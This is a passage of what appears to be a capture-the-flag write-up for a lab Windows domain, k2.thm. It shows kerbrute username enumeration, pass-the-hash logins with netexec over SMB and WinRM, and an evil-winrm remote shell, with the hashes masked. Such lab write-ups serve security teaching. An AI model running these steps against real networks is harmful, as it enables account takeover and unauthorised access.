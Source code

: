 <p align="center">Valid Username</p>
<p align="center">j.smith</p>

```bash
:~/K2# kerbrute userenum --dc K2ROOTDC -d k2.thm A.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        
...
2025/09/30 xx:xx:xx >  [+] VALID USERNAME:	 j.smith@k2.thm
```

<h3 align="center">Shell as <strong>j.smith</strong></h3>
<p align="center">The hash identified for Administrator in Task 2 (••••••••••••••••••••••••••••••••) allowed to obtain shell.</p>

<br>
<br>
<br>

```bash
:~/K2# nxc smb K2RootDC.k2.thm -u 'j.smith' -H '••••••••••••••••••••••••••••••••'
SMB         xx.xxx.xxx.xx   445    K2ROOTDC         [*] Windows 10 / Server 2019 Build 17763 x64 (name:K2ROOTDC) (domain:k2.thm) (signing:True) (SMBv1:False) 
SMB         xx.xxx.xxx.xx   445    K2ROOTDC         [+] k2.thm\j.smith:•••••••••••••••••••••••••••••••• 
```

```bash
:~/K2# nxc winrm K2RootDC.k2.thm -u 'j.smith' -H '••••••••••••••••••••••••••••••••'
WINRM       xx.xxx.xxx.xx   5985   K2ROOTDC         [*] Windows 10 / Server 2019 Build 17763 (name:K2ROOTDC) (domain:k2.thm) 
WINRM       xx.xxx.xxx.xx   5985   K2ROOTDC         [+] k2.thm\j.smith:•••••••••••••••••••••••••••••••• (Pwn3d!)
```

```bash
:~/K2# evil-winrm -i K2RootDC.k2.thm -u 'j.smith' -H '••••••••••••••••••••••••••••••••'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\j.smith\Documents>
```

<img width="1915" height="551" alt="{51BBCEF2-2489-4B24-9F51-3F4D960CFB8B}" src="https://github.com/user-attachments/assets/956a27bd-70ff-41e7-9bd6-c1df98ca8a3a" />
